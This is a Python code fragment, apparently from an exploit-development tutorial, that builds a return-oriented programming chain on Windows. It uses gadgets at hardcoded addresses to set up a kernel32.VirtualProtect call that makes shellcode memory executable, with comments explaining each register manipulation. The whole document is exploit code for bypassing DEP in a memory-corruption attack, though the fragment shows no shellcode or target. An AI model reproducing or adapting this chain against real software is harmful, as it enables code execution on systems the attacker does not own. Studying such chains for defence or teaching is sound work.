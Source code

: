 ```python
parameters = struct.pack('<L', 0x77e22e15)    # kernel32.VirtualProtect()
parameters += struct.pack('<L', 0x4c4c4c4c)    # return address (address of shellcode, or where to jump after VirtualProtect call. Not officially apart of the "parameters"
parameters += struct.pack('<L', 0x45454545)    # lpAddress
parameters += struct.pack('<L', 0x03030303)    # size of shellcode
parameters += struct.pack('<L', 0x54545454)    # flNewProtect
parameters += struct.pack('<L', 0x62506060)    # pOldProtect (any writeable address)

# Padding to reach gadgets
padding = "\x90" * 4

# add esp, 0x1C + ret will land here
# Increase ECX C bytes (ECX right now contains old ESP) to equal address of the VirtualProtect return address place holder
# (no pointers have been created yet)
rop2 = struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)

# Move ECX into EDX, and increase it 4 bytes to reach location of VirtualProtect lpAddress parameter
# (no pointers have been created yet. Just preparation)
# Now ECX contains the address of the VirtualProtect return address
# Now EDX (after the inc edx instructions), contains the address of the VirtualProtect lpAddress location
rop2 += struct.pack ('<L', 0x6ffb6162)  # 0x6ffb6162: mov edx, ecx ; pop ebp ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x50505050)  # padding to compensate for pop ebp in the above ROP gadget
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)

# Increase EAX, which contains old ESP, to equal around the address of shellcode
# Determine how far shellcode is away, and add that difference into EAX, because
# EAX is being used for calculations
rop2 += struct.pack('<L', 0x6ff7e29a)    # 0x6ff7e29a: add eax, 0x00000100 ; pop ebp ; ret  ;  (1 found)
rop2 += struct.pack('<L', 0x41414141)    # padding to compensate for pop ebp in the above ROP gadget

# Replace current VirtualProtect return address pointer (the placeholder) with pointer to shellcode location
rop2 += struct.pack ('<L', 0x6ff63bdb)   # 0x6ff63bdb mov dword [ecx], eax ; pop ebp ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for pop ebp instruction in the above ROP gadget

# Replace VirtualProtect lpAddress placeholder with pointer to shellcode location
rop2 += struct.pack ('<L', 0x77e942cb)   # 0x77e942cb: mov dword [edx], eax ; pop esi ; pop ebp ; retn 0x000C ;  (1 found)
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for pop esi instruction in the last ROP gadget
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for pop ebp instruction in the last ROP gadget
```
